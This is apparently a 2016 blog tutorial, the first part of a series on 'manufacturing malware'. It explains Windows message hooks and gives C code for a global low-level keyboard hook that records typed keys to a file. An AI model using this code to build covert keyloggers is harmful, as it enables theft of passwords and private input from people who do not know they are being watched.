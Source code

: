 ```yaml
---
layout: post
title: "Manufacturing Malware 0x01 - Keyloggers Part I"
date: 2016-04-27 14:00:00 +0100
categories: Malware
tags:
  - malware
  - windows
  - winapi
  - c
author: dtm
---
```

S'goin' on guys, dtm here with a write-up on Windows keylogging.

As a promotional gift, I will be detailing a type of keylogger on the code level written in MSVC++ utilising the WinAPI.

**Disclaimer**: The following document is not newbie-friendly and requires a fair amount of knowledge of both general programming concepts and Windows internals:

	Proficiency in C/C++
	Knowledge of the WinAPI and its documentation
	Knowledge of Windows messages and message queues
	Knowledge of Windows hooks
	Some understanding of multi-threading
	Recommended knowledge of Mutual Exclusions
	Recommended knowledge of FTP
	
- - - -
	
## General Overview of Keyloggers
A keylogger is an object which, in its simplest state, tracks key presses registered by the keyboard. Note that this object can be hardware as well as software but this article will focus more on the latter. When a key is pressed, the keylogger is able to capture it and then pass it along to its original destination. Keyloggers are not always considered malware since it is dependant on the situation in which it is used. Consider the following: If a parent is concerned about their child's activity on the computer, they can easily monitor them through their keyboard input; or in a company, the employer wishes to monitor the activity of his employees to make sure that they aren't doing what they aren't supposed to do. in fact, this probably goes for all "malware". Such applications may be referred to as _Possibly Unwanted Programs_ (PUP) or _Possibly Unwanted Applications_ (PUA).

In a standard console application which takes keyboard input, for example, using the _getchar_ function from the standard C library, the input from the keyboard gets buffered into the stdin where the program can fetch the character. A keylogger is not limited to its own active console window (if it even has one at all) so how are we able to globally capture keystrokes? The answer is pretty simple, actually, in fact, Microsoft has already done most of the heavy lifting for us.

- - - -

## Callback Functions
Windows applications all work in harmony using something called **messages**. These messages are all passed through the message queue and each application can detect and process its own messages. Within the applications are _callback_ functions which may be called in the event of retrieving certain messages. For example, pressing ALT+F4 in a GUI window will send a `WM_CLOSE` message into the message queue where the corresponding application's **message loop** will detect it and pass it to a [`WindowProc`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms633573%28v=vs.85%29.aspx) callback function for processing. What happens inside this function is that the message is filtered through some switch cases and in the case of a `WM_CLOSE` message, it will handle any clean ups and whatever else it needs, then it will destroy the window and also possibly exit the program. 

```c
LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
	switch (uMsg) {
		case WM_CLOSE:
			// ...
			DestroyWindow(hwnd);
	}
}
```

Additional message information may also be passed into the callback function under WPARAM and LPARAM arguments. Note that these arguments will not always be the same and can change under different callback functions.

### LowLevelKeyboardProc
There exists a callback function called [`LowLevelKeyboardProc`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644985%28v=vs.85%29.aspx) and what this function does is it responds to key state changes either within a thread scope or a global scope - of course we're wanting to have a global scope for our purposes. But before we can use this function, we first need to learn about Windows hooks.

- - - -

## Windows Hooks
From the MSDN documentation on [Windows Hooks](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644959%28v=vs.85%29.aspx), "*A hook is a mechanism by which an application can intercept events, such as messages, mouse actions, and keystrokes. A function that intercepts a particular type of event is known as a hook procedure. A hook procedure can act on each event it receives, and then modify or discard the event.*" As we can see from this description, applications are able to *"intercept ... keystrokes*" and that is exactly what we are aiming to do with a keylogger.

### Installing Hooks
To install a hook procedure, we must use the [`SetWindowsHookEx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644990%28v=vs.85%29.aspx) function to install a hook like so:

```c
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHookEx(idHook, (HOOKPROC)HookProc, hMod, dwThreadId);
	
	// this is our message loop to receive messages from the queue
	MSG msg;
	BOOL bRet;
	while ((bRet = GetMessage(&msg, NULL, 0, 0)) != 0) {
		if (bRet == -1) {
			// handle error
		} else {
			TranslateMessage(&msg);
			DispatchMessage(&msg);
		}
	}
	
	return 0;
}
```

Here, we would define a callback function `HookProc` and use a call to `SetWindowsHookEx` to install a hook so that our function can intercept and handle the hook procedure of type `idHook`. In the HookProc, we are highly recommended to call [`CallNextHookEx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644974%28v=vs.85%29.aspx) to be able to pass the hooked information onwards to the next existing hook procedure. 

Let's finally get our hands dirty by writing a prototype.

- - - -

## Keylogger Prototyping
**Disclaimer**: The following code snippets will not contain any error checking for the sake of readability.

We now know what we need to set up a function to intercept keystrokes from the information provided above. It should look a little something like this:

```c
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHookEx(WH_KEYBOARD_LL, (HOOKPROC)LowLevelKeyboardProc, hModule, 0);
	
	// message loop here
}
```

For our `SetWindowsHookEx`, we require the `idHook` parameter to be `WH_KEYBOARD_LL` since it has a global scope. For our dwThreadId parameter, we set it to 0 since this will allow our hook procedure to be associated will all existing threads running on the same desktop as our application. As of yet, our keylogger is useless to us since we have not implemented any method to store the keystrokes.

### Writing Keystrokes to Disk
First, we need to know about the arguments which are passed into the `LoweLevelKeyboardProc` function. 

According to the MSDN documentation for the `LowLevelKeyboardProc` function, `nCode` will hold the value `HC_ACTION` if *" `wParam` and `lParam` parameters contain information about a keyboard message"*. So only when `nCode` is equal to `HC_ACTION` will we need to write to the file, else we do not care. Once we have such a situation, we will need to check the `wParam` and `lParam` for information about the keypress. `wParam` contains information about how the key was pressed such as a key down or key up. `lParam` is documented as a pointer to a [`KBDLLHOOKSTRUCT`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644967%28v=vs.85%29.aspx) which contains the respective [`vkCode`](https://msdn.microsoft.com/en-us/library/windows/desktop/dd375731%28v=vs.85%29.aspx) of the keypress.

```c
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	if (nCode == HC_ACTION) {
		if (wParam == WM_KEYDOWN) {
			KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
			DWORD vkCode = kbd->vkCode;
			
			if (vkCode >= 0x30 && vkCode <= 0x5A) {
				FILE *fp = fopen(KEYLOG_FILE, "a+");
				
				fputc(vkCode, fp);
				
				fclose(fp);
			}
		}
	}
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}
```

We can typecase the `lParam` as a pointer to a `KBDLLHOOKSTRUCT` and assign it to a variable `kbd`. For this example, we only test for basic input which includes keys ranging from `0-9` and `A-Z`. Of course, right now there is a lot missing detail with regards to other keys such as `ALT`, `CTRL` and `SHIFT` and also that it cannot differentiate upper and lower case and symbols. We can easily fix this by manually adding in some tests and switch statements until it reaches our satisfaction. Once we have extracted the `vkCode` member from `kbd` and it satisfies the key range, we will open our file defined by `KEYLOG_FILE` with an append mode and simply add on the `vkCode` to the end of the file.

After we've finished what we intended to do, we can then push the keypress onwards to the next hook procedure.

- - - -

## Conclusion
In the next part I will showcase my keylogger code and briefly run through its functionality and how it's achieved. Thanks for reading and stay tuned!

*-- dtm*
